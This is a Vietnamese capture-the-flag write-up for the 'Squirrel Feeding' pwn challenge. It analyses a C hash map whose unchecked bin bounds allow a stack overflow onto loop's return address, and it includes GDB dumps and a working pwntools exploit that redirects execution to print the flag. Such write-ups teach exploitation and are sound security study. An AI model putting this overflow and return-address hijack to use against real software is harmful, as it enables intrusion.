


# Squirrel feeding
*cho sóc ăn =))*
## Analysis

Trước tiên ta cần phải hiểu một chút về luồng thực thi của chương trình. Đầu tiên ta có `main`:

```c
int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    puts("Welcome to the Michigan squirrel feeding simulator!");

    init_flag_map();

    loop();
}
```
Main chỉ gọi 2 hàm trong nó: một là `init_flag_map()` và hai là `loop()`. Ta sẽ đi lần lượt tới 2 hàm này.

Ta có hàm `init_flag_map`:

```c
void init_flag_map() {
    FILE *flag_file = fopen("flag.txt", "r");
    if (flag_file == NULL) {
        puts("File not found!");
        exit(1);
    }

    char flag_text[0x100];
    fgets(flag_text, sizeof(flag_text), flag_file);
    long flag_weight = strtol(flag_text, NULL, 10);

    flag_map.data = &flag_map.local;
    increment(&flag_map, "santa", flag_weight);

    fclose(flag_file);
}
```
Đây là hàm đọc flag rồi lưu trong một cái biến global map nào đấy được khởi tạo từ trước 

```c
// Globals

map flag_map = {0};
```
Với map là biến theo kiểu struct khá là lú

```c
typedef struct map_entry {
    char name[16];
    size_t weight;
} map_entry;

typedef struct map_data {
    size_t bin_sizes[10];
    map_entry bins[10][4];
} map_data; 

typedef struct map {
    map_data *data;
    map_data local;
} map;
```
Một map sẽ trông như thế này 



*(xin lỗi vì hình hơi tã)*

Mỗi `map` gồm 10 `bin`, mỗi bin gồm 4 `map_entry`, trong mỗi `map_entry` chứa `name` và `weight` của squirrel. Tiếp theo hàm init_flag_map sẽ gán địa chỉ của `flag_map -> data = flag_map -> local` tức là gán địa chỉ của local vào data, chưa hiểu để làm gì. Trong map có dùng 1 kiểu dữ liệu size_t:

    C có một kiểu dữ liệu là size_t, một kiểu dữ liệu không dấu dùng để lưu size của một object ở bất kì dạng dữ liệu nào.
    size_t dài bao nhiêu byte thì tùy thuộc vào platform, thường thì nó được map với kiểu dữ liệu có giá trị nguyên lớn nhất (đa phần là unsigned int).

Cuối cùng nó gọi hàm `increment` rồi return. Mình sẽ giải thích hoạt động của nó sau.

Tiếp theo đến hàm `loop()`: 

```c
size_t i = 0;
long option = 0;
char *end_ptr = NULL;
char option_input[0x8] = {0};
char name_input[16] = {0};

void loop() {
    map m = {0};
    m.data = &m.local;

    while (i < 5) {
        puts("==============================");
        puts("What would you like to do?");
        puts("1. Feed your favorite squirrel");
        puts("2. View squirrel weight");
        puts("3. Quit");
        fputs("> ", stdout);

        fgets(option_input, sizeof(option_input), stdin);
        option = strtol(option_input, &end_ptr, 10);
        if (errno) {    
            puts("Invalid option!");
            continue;
        }

        if (option == 1) {
            ++i;

            fputs("Enter their name: ", stdout);
            fgets(name_input, sizeof(name_input), stdin);

            fputs("Enter the amount to feed them: ", stdout);
            fgets(option_input, sizeof(option_input), stdin);
            option = strtol(option_input, &end_ptr, 10);
            if (errno) {
                puts("Invalid option!");
                continue;
            }

            increment(&m, name_input, option);

        } else if (option == 2) {
            fputs("Enter their name: ", stdout);

            fgets(name_input, sizeof(name_input), stdin);

            print(&m, name_input);

        } else if (option == 3) {
            break;

        } else {
            puts("Invalid option!");
        }
    }
}
```
Hàm này đầu tiên sẽ tạo ra một map mới sau đó in ra menu với 2 chức năng chính, 1 là feed the squirrel, 2 là View squirrel weight. Cứ mỗi lần cho squirrel ăn thì sẽ gọi ra hàm `increment` và biến `i` sẽ cộng thêm 1, đủ 5 lần thì sẽ thoát vòng lặp while và kết thúc chương trình. Nếu chọn option 2 chương trình sẽ yêu cầu tên của squirrel muốn xem rồi kiểm tra và gọi hàm `print` để in ra cân nặng của nó.

```c
void increment(map *m, char *key, size_t amount) {
    size_t hash = hash_string(key);
    if (hash == 0)
        return;

    size_t index = hash % 10;

    for (size_t i = 0; i <= 10; i++) {
        map_entry *entry = &m->data->bins[index][i];

        // Increment existing   
        if (strncmp(entry->name, key, 16) == 0) {
            entry->weight += amount;
            printf("Squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            return;
        }

        // Create newx  
        if (i == m->data->bin_sizes[index]) {
            strncpy(entry->name, key, 16);
            entry->weight += amount;
            if (key != "santa") printf("New squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            m->data->bin_sizes[index]++;
            // TODO: enforce that new weight does not exceed the "presidential chonk!"
            get_max_weight(&flag_map, "santa");
            return;
        }
    }
}
```
Hàm `increment` nhận 3 tham số địa chỉ map, tên squirrel và amount (tạm hiểu là lượng thức ăn). Trong hàm `increment`: đầu tiên nó sẽ gọi hàm `hash_string` với tham số là `squirrel name`: 

```c
size_t hash_string(char *string) {
    size_t hash = 0;
    size_t len = strlen(string);
    if (len > 16)
        return 0;

    for (size_t i = 0; i < len; i++) {
        hash += string[i] * 31;
    }
    return hash;
}
```
Hàm này sẽ kiển tra độ dài của tham số key, lấy từng ký tự trong key rồi nhân với 31 sau đó cộng thành tổng. Trả về là tổng vừa tính được. Hàm `increment` nhận tổng này rồi chia lấy dư cho 10 - đây là chỉ số `index `trong map của squirrel, chỉ số này sẽ quyết định squirrel được lưu ở bin nào. Tiếp theo chương trình sẽ truy cập vào đúng bin đ
ấy, duyệt lần lượt các entry cho đến khi tìm được `entry` chứa squirrel bằng cách kiểm tra tên của nó hoặc không tìm thấy thì sẽ tạo mới một squirrel ở `entry` trống. Mỗi bin có thể chứa tối đa 4 squirrel. Khi đã có sóc trong entry thì cân nặng của nó sẽ cộng dồn với `amount` (tham số thứ 3). Khi tạo squirrel mới, chương trình sẽ gọi ra hàm `get_max_weight()` và hàm này không làm gì cả :v

```c
void get_max_weight(map *m, char *key) {
    // TODO: implement
    // I figured I would just leave the stub in!
}
```
```c
void print(map *map, char *key) {
    size_t hash = hash_string(key);
    if (hash == 0)
        return;

    size_t index = hash % 10;

    for (size_t i = 0; i < map->data->bin_sizes[index]; i++) {
        map_entry *entry = &map->data->bins[index][i];

        if (strncmp(entry->name, key, 16) != 0) continue;

        printf("Squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
        return;
    }
}
```
Hàm print sẽ nhận 2 tham số : địa chỉ của `map` và `squirrel name`. Giống như trong hàm `increment`, nó sẽ gọi hàm `hash_string` để lấy giá trị hash của `squirrel name`, tìm ra bin chứa nó thông qua phép chia lấy dư cho 10, duyệt lần lượt cho đến khi tìm thấy squirrel có `name` trùng khớp và in ra `weight` của nó.

Đó là toàn bộ luồng thực thi chính của chương trình. Và từ nãy đến giờ mình vẫn chưa chỉ ra nơi mà mình sẽ exploit. Để ý hàm `while` trong `loop` cho ta `feed the squirrel` 5 lần có nghĩa là ta cũng có thể tạo 5 squirrel. Mỗi bin có tối đa 4 `entry`, các `bin` được khởi tạo như một mảng 2 chiều, có lẽ địa chỉ của nó cũng sẽ ngay cạnh nhau, điều gì sẽ xảy ra nếu ta tạo liên tục 5 squirrel vào trong cùng 1 `bin`? 
==> Vì `increment` không kiểm tra `bin` đã đầy hay chưa nên Squirrel cuối cùng sẽ ghi đè vào `entry 0` của `bin` tiếp theo. Đây là lỗi bof và ta có thể kiểm soát được 24 byte tràn gồm 16 byte name và 8 byte weight

Có một cái bất lợi ở đây là flag_map và map ta được phép chỉnh sửa (gọi là nomal map) không nằm cùng vùng nhớ. Do `flag_map` là biến `global` nên nó sẽ nằm trên `data segment` trong bộ nhớ, còn `nomal map` sẽ nằm trên stack. Vì vậy ta phải tìm cách để gọi bằng được `flag_map` bằng option 2 

```java
[+] checksec for '/mnt/c/ctf/wctf/Squirrel Feeding/challenge'
Canary                        : ✘
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
gef➤ info var
...
0x0000555555558048  completed
0x0000555555558060  flag_map
0x0000555555558478  i
...
```
Dùng địa chỉ trên thì ta tìm được giá trị hex của `'santa'` và ngay dưới là giá trị của flag mà mình tạo ra (vì `init_flag_map` lấy flag của mình bằng `strtol` nên mình sẽ dùng flag dạng số cho dễ nhận biết)

```java
0x555555558260 <flag_map+512>:  0x0000000000000000      0x0000000000000000
0x555555558270 <flag_map+528>:  0x0000000000000000      0x0000000000000000
0x555555558280 <flag_map+544>:  0x0000000000000000      0x0000000000000000
0x555555558290 <flag_map+560>:  0x0000000000000000      0x00000061746e6173
0x5555555582a0 <flag_map+576>:  0x0000000000000000      0x000000174876e7ff
0x5555555582b0 <flag_map+592>:  0x0000000000000000      0x0000000000000000
0x5555555582c0 <flag_map+608>:  0x0000000000000000      0x0000000000000000
0x5555555582d0 <flag_map+624>:  0x0000000000000000      0x0000000000000000
```
    >>> 0x000000174876e7ff
    99999999999
    >>> p64(0x00000061746e6173)
    b'santa\x00\x00\x00'
    >>>
Tiếp theo ta cần tìm vị trí của nomal map. Ta đặt breakpoint tại hàm strcmp của increment 

```java
0x00005555555553fc <+173>:   mov    rax,QWORD PTR [rbp-0x20]
0x0000555555555400 <+177>:   mov    rcx,QWORD PTR [rbp-0x30]
0x0000555555555404 <+181>:   mov    edx,0x10
0x0000555555555409 <+186>:   mov    rsi,rcx
0x000055555555540c <+189>:   mov    rdi,rax
0x000055555555540f <+192>:   call   0x555555555130 <strncmp@plt>
```
Ta sẽ tìm tại 2 địa chỉ `[rbp-0x30]` và `[rbp-0x20]`. Lần mò stack một lúc thì cũng thấy nó được vị trí của nomal map. Mình tạo một squirrel có tên là AAAAAAAA và một con tên là 1 =)) Vì AAAAAAAA qua hàm `hash` thì sẽ cho index 0 còn 1 thì cho index 9

```java
0x7fffffffde40: 0x0000000000000000      0x41414141414141c3
0x7fffffffde50: 0x00000000000a4141      0x000000000001869f
0x7fffffffde60: 0x0000000000000000      0x0000000000000000
0x7fffffffde70: 0x0000000000000000      0x0000000000000000
...
0x7fffffffe020: 0x0000000000000000      0x0000000000000a31
0x7fffffffe030: 0x0000000000000000      0x0000000000000063
0x7fffffffe040: 0x0000000000000000      0x0000000000000000
0x7fffffffe050: 0x0000000000000000      0x0000000000000000
0x7fffffffe060: 0x0000000000000000      0x0000000000000000
0x7fffffffe070: 0x0000000000000000      0x0000000000000000
```
Vậy thì khá chắc `squirrel` thứ 5 mà ta tạo sẽ bị ghi đè lên 1 phần nào đó trong `stack`. Ngay dưới vị trí lưu `nomal map` mình thấy cái này

```java
0x7fffffffe020: 0x0000000000000000      0x0000000000000a31
0x7fffffffe030: 0x0000000000000000      0x0000000000000063
0x7fffffffe040: 0x0000000000000000      0x0000000000000000
0x7fffffffe050: 0x0000000000000000      0x0000000000000000
0x7fffffffe060: 0x0000000000000000      0x0000000000000000
0x7fffffffe070: 0x0000000000000000      0x0000000000000000
0x7fffffffe080: 0x0000000000000000      0x00005555555592a0
0x7fffffffe090: 0x00007fffffffe0a0      0x00005555555559c0
```
Bên dưới `bin 9` của `nomal map` có vẻ như là các địa chỉ gì đó 

```java
gef➤  x/i 0x00005555555592a0
   0x5555555592a0:      add    BYTE PTR [rax],al
gef➤  x/i 0x00007fffffffe0a0
   0x7fffffffe0a0:      add    BYTE PTR [rax],al
gef➤  x/i 0x00005555555559c0
   0x5555555559c0 <main+130>:   mov    eax,0x0
```
Duy chỉ có địa chỉ sau cùng là địa chỉ trỏ về vị trí nào đấy trong main. Và đó là `retAddr` của `loop`. Khi chương trình diễn ra bình thường thì sau khi `loop` hoàn thành, nó sẽ nhảy vào địa chỉ đấy trong `main` và kết thúc chương trình.

```java
0x00005555555559bb <+125>:   call   0x5555555556c9 <loop>
0x00005555555559c0 <+130>:   mov    eax,0x0
```
Mình thử lấp đầy 5 squirrel vào bin 9 để xem điều gì xảy ra =))
```python
    for i in range(5):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'name: ', b'1'+b'2'*i) 
    p.sendlineafter(b'them: ', b'99')
    # mình chọn 1 và 2 bởi vì 1 qua hash cho index 9 còn 2 thì ra 0
```
```java
0x7fffffffe020: 0x0000000000000000      0x00000000000a3231
0x7fffffffe030: 0x0000000000000000      0x0000000000000063
0x7fffffffe040: 0x000000000a323231      0x0000000000000000
0x7fffffffe050: 0x0000000000000063      0x0000000a32323231
0x7fffffffe060: 0x0000000000000000      0x0000000000000063
0x7fffffffe070: 0x00000a3232323231      0x0000000000000000
0x7fffffffe080: 0x0000000000000000      0x000a323232323231
0x7fffffffe090: 0x0000000000000000      0x0000555555555a23  <==
```
Bùm :) retAddr (tại 0x7fffffffe098) của `loop` đã bị `overwrite`. Giá tri mới sẽ bằng 0x00005555555559c0 + 99. Nghĩa là nếu ta cho lượng `weight = 0` thì có thể leak đc địa chỉ này vì lúc tạo `squirrel` nó sẽ có thông báo.

Ta hoàn toàn có thể ovewrite địa chỉ này bằng con sóc thứ 5 trong bin 9 =)). Vậy là đã có thể kiểm soát được `retAddr` của `loop`, vấn đề là giờ ta muốn chuyển hướng về đâu? Muốn có flag phải truy cập vào được `flag_map`, nhưng nó và `nomal map` hoàn toàn không nằm cùng segment.

```c
void get_max_weight(map *m, char *key) {
    // TODO: implement
    // I figured I would just leave the stub in!
}
```
Chúng ta có một hàm duy nhất gọi vào `flag_map` nhưng lại không làm gì cả. Hàm này được gọi khi ta tạo `squirrel` mới tại hàm `increment`. 

```c
get_max_weight(&flag_map, "santa");
```
Mình để ý ngay cả khi leave và ret, 2 thanh ghi chứa tham số của get_max_weight vẫn không bị thay đổi

```java
$rsi   : 0x0000555555556028  →  0x00000061746e6173 ("santa"?)
$rdi   : 0x0000555555558060  →  0x0000555555558068  →  <flag_map+8> add BYTE PTR [rax], al
```


    Theo wikipedia: x86 calling invention quy định arg đầu tiên sẽ được chứa tại rdi và arg thứ 2 tại rsi.

Có một sự trùng hợp là hàm print tại option 2 của loop cũng nhận 2 tham số tương tự `get_max_weight`. Ta có thể lợi dụng được điều này để rẽ sang `print` bởi vì như mình nói ở phía trên, 2 thành ghi hoàn toàn không bị thay đổi ngay cả khi `increment`, `loop` return. Vậy là đã có nơi return tới, ta sẽ thay đổi `retAddr` của `loop` bằng `weight` của `squirrel` thứ 5

```java
0x0000555555555904 <+571>:   mov    rdi,rax
0x0000555555555907 <+574>:   call   0x55555555550e <print>
0x000055555555590c <+579>:   jmp    0x555555555927 <loop+606>
...
gef➤  p/d 0x00005555555559c0 - 0x55555555550e
$9 = 1202
```
Chỉ cần weight của `squirrel thứ 5 là -1202` là ta có thể rẽ sang `print`. Nhưng kiểu dữ liệu của `weight` là kiểu không dấu (size_t - unsinged int) thì k thể lưu được số âm. Vì lăn tăn điều này mà mình có test thử =))

```c
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>

int main(){
size_t i = -1;
size_t x = 10;
printf("%zu %ld\n", i, i);
printf("%zu %ld\n", x, x);
printf("%zu %ld\n", i+x, i+x);
return 0;
}
```
    output:
    18446744073709551615 -1
    10 10
    9 9

Phép cộng thì vẫn cho ra kết quả bình thường miễn là số dương nên mình nghĩ là có thể.

## Exploit

```python
from pwn import *
exe = ELF('challenge', checksec=False)
p = process(exe.path)
input()
for i in range(5):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'name: ', b'1'+b'2'*i)
    if i == 4:
        p.sendlineafter(b'them: ', b'-1202')
        break
    p.sendlineafter(b'them: ', b'99')
p.interactive()
```
Chạy một lúc thì gặp lỗi `xmm0` ở hàm `print`

```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
  ...
 → 0x7efc8bb26e98 <buffered_vfprintf+184> movaps XMMWORD PTR [rsp+0x40], xmm0
  ...
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge", stopped 0x7efc8bb26e98 in buffered_vfprintf (), reason: SIGSEGV
```
Nên mình sẽ thử nhảy vào các câu lệnh sau thử xem như thế nào

```python
    p.sendlineafter(b'them: ', b'-1197') # print +5
```
Phải nhảy đến lệnh `print +5` mới lấy được flag. Remote để lấy flag thôi

```java
trungdo@TEFO:/mnt/c/ctf/wctf/Squirrel Feeding$ python3 solve.py DEBUG
[+] Opening connection to squirrel-feeding.wolvctf.io on port 1337: Done

[DEBUG] Received 0xcd bytes:
    b'== proof-of-work: disabled ==\n'
    b'Welcome to the Michigan squirrel feeding simulator!\n'
    b'==============================\n'
    ...
    [DEBUG] Received 0x5c bytes:
    b'New squirrel 12222\n'
    b' has weight 94104177014035 lbs\n'
    b'Squirrel santa has weight 39875218375 lbs\n'
    New squirrel 12222
    has weight 94104177014035 lbs
    Squirrel santa has weight 39875218375 lbs
```
À quên nữa `flag` sẽ có dạng `wctf{weight value}` nên `weight` cuối cùng chính là `flag` cần tìm ha =))

`flag: wctf{39875218375}`